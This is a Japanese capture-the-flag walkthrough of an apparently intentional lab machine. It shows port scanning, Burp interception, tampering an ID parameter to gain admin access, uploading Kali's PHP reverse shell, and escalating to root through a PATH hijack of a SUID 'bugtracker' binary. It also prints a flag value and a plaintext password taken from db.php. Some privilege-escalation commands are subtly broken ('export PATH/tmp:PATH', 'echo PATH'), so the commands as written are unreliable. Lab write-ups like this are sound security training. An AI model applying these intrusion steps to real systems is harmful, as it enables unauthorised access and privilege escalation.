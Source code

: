 # 1.Port Scan 
対象マシンのポートをスキャン
ip=10.129.250.6
`nmap -sC -sV $ip`

![45d47843cf0fb8616a8edcb162087940.png](../_resources/45d47843cf0fb8616a8edcb162087940.png)

# 2.Burp Suite

## Local Proxy
対象HPに接続
http://$ip/

![ba7bed9861212273b386f7897f470797.png](../_resources/ba7bed9861212273b386f7897f470797.png)

login用ページと思われるディレクトリを発見
![a5827a020d78d0729156353852591dd6.png](../_resources/a5827a020d78d0729156353852591dd6.png)

## Guest login
ゲストでログイン

![8f22d7efb189df67c1aa8a7813b79e37.png](../_resources/8f22d7efb189df67c1aa8a7813b79e37.png)

![7a15c188f29c929e9aa04c8dc9592a45.png](../_resources/7a15c188f29c929e9aa04c8dc9592a45.png)

ログインページのパケットを傍受

![50060c167b817853f9591ce6145a313e.png](../_resources/50060c167b817853f9591ce6145a313e.png)

# 3.Fuzzing
## admin info
右図赤枠の箇所でファジングを実施

![d632620577c6476d0c97e392a316067d.png](../_resources/d632620577c6476d0c97e392a316067d.png)

ID=1がadminであることを確認

![c3415e527202f0309347b802d9ed8978.png](../_resources/c3415e527202f0309347b802d9ed8978.png)


## Revers shell
下図赤枠内パラメータをアドミンの物に変更

![ba2b093e44d88550f531741c9934726a.png](../_resources/ba2b093e44d88550f531741c9934726a.png)

管理者用アップローダーへ接続

![b98b35d67e41d1f98923d4cca1687b47.png](../_resources/b98b35d67e41d1f98923d4cca1687b47.png)

kaliのデフォルトについてるリバースシェルの下図赤枠内を変更
`sudo vim /usr/share/webshells/php/php-reverse-shell.php`

![3dcab1c5508c1bf63101c022bbd47bd7.png](../_resources/3dcab1c5508c1bf63101c022bbd47bd7.png)

変更したものをアップロード

![77b8ae2afd72cc4f016531e50a643af3.png](../_resources/77b8ae2afd72cc4f016531e50a643af3.png)

アップロードしたものをgobusterで確認。

![6bcdd8fe55f595fa01cd68931123965f.png](../_resources/6bcdd8fe55f595fa01cd68931123965f.png)


![f62c2cd0941e9c9da144bc0d25034347.png](../_resources/f62c2cd0941e9c9da144bc0d25034347.png)

# 5. Use flag Get
サーバ内のuser.txtを検索

$ find / -name *user.txt* 2> /dev/null
$ cd /home/robert/
$ ls
$ cat user.txt

![0edfe3217b29b18377779dfc17ba6397.png](../_resources/0edfe3217b29b18377779dfc17ba6397.png)

root.txtがあると思われるディレクリを発見したが権限が無い為アクセスできない。

![9c8e26e622039954556ee5c91fc490cf.png](../_resources/9c8e26e622039954556ee5c91fc490cf.png)

user.txt
f2c74ee8db7983851ab2a96a44eb7981
M3g4C0rpUs3r!
db.php内のユーザ情報を取得

![3addcc654d858a5d6e304b64fba7629f.png](../_resources/3addcc654d858a5d6e304b64fba7629f.png)


# 6.SSH connect
 `ssh robert@$ip`
 
 SSHを使いrobertユーザで接続
 
 ![390a02dd703ddf2bc96b56b66b8e4849.png](../_resources/390a02dd703ddf2bc96b56b66b8e4849.png)

権限昇格に使用できると思われるツールを発見

![54ea79e33302eb51168b56b83b5b19ab.png](../_resources/54ea79e33302eb51168b56b83b5b19ab.png)

Bug Trackerは/root/reportsディレクリ内にcatを使用することを確認

![f5982646e76314fb6222c9e8a0486f5e.png](../_resources/f5982646e76314fb6222c9e8a0486f5e.png)

catに"bin/sh"を入れrootまでのパスを設定する

$ cd /tmp
$ echo "/bin/sh" > cat
$ chmod +x cat  
$ export PATH/tmp:PATH
$ echo PATH
$ bugtracker

![0804246115a2505a54b5914b879cab38.png](../_resources/0804246115a2505a54b5914b879cab38.png)